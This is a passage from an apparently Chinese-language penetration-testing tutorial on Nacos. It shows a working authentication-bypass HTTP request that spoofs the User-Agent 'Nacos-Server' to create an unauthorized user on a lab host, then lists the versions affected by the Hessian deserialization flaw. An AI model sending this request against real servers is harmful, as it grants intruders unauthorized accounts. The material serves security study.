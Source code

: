 此时看到响应包中包含了系统存在的用户名`nacos`

os 的密码是 `bcrypt` 加密的，`bcrypt` 是一种非常难以破解的哈希类型添加一个新用户。

#### 添加一个新用户

使用burp抓包

http://192.168.70.14:8848/nacos/v1/auth/users

把请求头中GET请求改成`POST`，`User-Agent`中的参数换成`Nacos-Server`

添加了一个用户test1,密码test11

```python
POST /nacos/v1/auth/users?username=test1&password=test11 HTTP/1.1
Host: 192.168.70.14:8848
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: xp=MTcyNzMzOTkwMXxEWDhFQVFMX2dBQUJFQUVRQUFBcF80QUFBUVp6ZEhKcGJtY01Dd0FKVTJGbVpVVnVkSEo1Qm5OMGNtbHVad3dJQUFZell6Tm1aVGM9fEbp4tK3jtymPIGzrHIPb7fc5lDlhVpfzJADxhpbSyri
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

pageNo=1&pageSize=10
```

![image-20240927091738368](https://image.201068.xyz/assets/37.微服务/image-20240927091738368.png)

成功添加了`test1`用户

```python
http://192.168.70.14:8848/nacos/v1/auth/users?pageNo=1&pageSize=2&search=blur
```

![image-20240927092549582](https://image.201068.xyz/assets/37.微服务/image-20240927092549582.png)

![image-20240927092113631](https://image.201068.xyz/assets/37.微服务/image-20240927092113631.png)

### 2.Nacos Hessian 反序列化漏洞

#### 影响范围

Nacos `1.4.1+`在**单机模式**下默认不开放7848端口，故该情况通常**不受此漏洞影响**。

然而，`1.4.0.2.x`版本**无论单机或集群模式**均默认开放`7848`端口。

所以最终影响范围是：

- `1.4.0 <= Nacos < 1.4.6` 使用cluster**集群模式**运行
- `2.0.0 <= Nacos < 2.2.3` 任意模式启动均受到影响
